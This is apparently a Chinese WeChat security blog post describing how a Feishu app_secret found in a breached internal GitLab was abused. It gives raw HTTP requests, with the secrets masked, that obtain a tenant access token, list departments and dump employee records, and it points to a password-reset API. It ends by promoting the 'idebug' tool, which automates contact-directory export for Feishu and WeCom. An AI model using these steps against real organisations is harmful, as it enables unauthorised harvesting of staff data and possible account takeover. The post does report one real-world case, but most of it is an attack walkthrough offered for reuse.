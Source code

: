#  记一次飞书app_secret泄露的利用

原创 安全艺术 [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

**0x00 案例**  

hvv前的日常测试，成功打入内网，进入gitlab翻了翻，发现了feishu的app_secret：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180201.png)

查看飞书官方文档，简单利用如下：1、获取tennat_access_token

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /open-apis/auth/v3/tenant_access_token/internal HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Te: trailersConnection: closeContent-Type: application/jsonContent-Length: 97  
    {    "app_id": "******",    "app_secret": "******"}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180202.png)2、获取部门信息，使用1中的tenant_access_token替换Authorization中的******

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /open-apis/contact/v3/scopes HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneAuthorization: Bearer ******Sec-Fetch-User: ?1Te: trailers  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180203.png)

3、根据部门id获取部门员工信息

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /open-apis/contact/v3/users/find_by_department?department_id=****** HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneAuthorization: Bearer ******Sec-Fetch-User: ?1Te: trailers  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180204.png)

4、更多玩法https://open.feishu.cn/document/server-
docs/admin-v1/password/reset![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180205.png)可惜本次获取的app_secret权限不足……

 ** **0x01 工具****

将飞书的app_secret和小伙伴沟通了下，然后飞书的利用模块就上线了，简单介绍下吧

使用`use
feishu`选择模块，注意红色方框里的说明![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180206.png)设置认证信息后执行![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180208.png)导出通信录，不提供部门id的话会获取所有的授权访问部门信息，如果能确定部门权限为全部门，请手动赋值部门id为0，不然获取到的用户信息可能不全

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180209.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180211.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180212.png)

工具地址：https://github.com/fasnow/idebug

目前已集成企业微信和飞书的利用，后续会集成更多利用模块，欢迎star持续关注哈

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

